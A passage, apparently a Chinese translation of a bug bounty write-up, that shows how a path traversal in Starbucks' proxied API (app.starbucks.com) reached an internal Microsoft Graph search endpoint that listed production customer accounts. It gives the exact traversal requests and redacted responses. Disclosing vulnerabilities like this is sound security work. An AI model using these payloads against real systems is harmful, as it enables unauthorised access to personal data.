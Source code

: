 
這意味著
- 內部 API 的 **root** 將在 6 個路徑之後
- 我們可以使用目錄暴力工具或只是 Burp Suite 的 `intruder` 者和 word list 來 map 它。

在這一點上，我聯繫了 Justin Gardner，讓他和我一起探討這個問題，因為我對這個功能非常感興趣
- 他幾乎立即確定了內部系統 root 的一些路徑

通過觀察對這些路徑的 HTTP 請求，如果沒有之後的正斜杠(forward slash)，就會使用 Burp 的 `intruder` 返回 redirect code：  
```
GET /bff/proxy/stream/v1/users/me/streamItems/web\..\.\..\.\..\.\..\.\..\.\..\.\search
Host: app.starbucks.com
```

```
HTTP/1.1 301 Moved Permanently
Server: nginx
Content-Type: text/html
Content-Length: 162
Location: /search/

```


當 Justin 努力尋找所有的 endpoints 時
- 我專注於每個目錄的逐一掃描
- 經過我自己的掃描，我發現 `v1` 存在於 `search` 下，`v1` 下面是 `Accounts` 和 `Addresses`

我跟 Justin 說，想到如果 `/search/v1/accounts` endpoints 是搜尋所有 production accounts，那將是多麼熱鬧的事情啊  
![](https://samcurry.net/wp-content/uploads/2020/06/user_accounts.png)  

這正是它(API)的主要功能    


`/search/v1/accounts` 是個 [Microsoft Graph](https://learn.microsoft.com/en-us/graph/overview) instance
- 可以訪問所有星巴克賬戶

![](https://samcurry.net/wp-content/uploads/2020/06/omg.png)  


```
GET /bff/proxy/stream/v1/users/me/streamItems/web\..\.\..\.\..\.\..\.\..\.\..\.\search\v1\Accounts\ HTTP/1.1
Host: app.starbucks.com
```

```
{
  "@odata.context": "https://redacted.starbucks.com/Search/v1/$metadata#Accounts",
  "value": [
    {
      "Id": 1,
      "ExternalId": "12345",
      "UserName": "UserName",
      "FirstName": "FirstName",
      "LastName": "LastName",
      "EmailAddress": "0640DE@example.com",
      "Submarket": "US",
      "PartnerNumber": null,
      "RegistrationDate": "1900-01-01T00:00:00Z",
      "RegistrationSource": "iOSApp",
      "LastUpdated": "2017-06-01T15:32:56.4925207Z"
    },
...
lots of production accounts

```
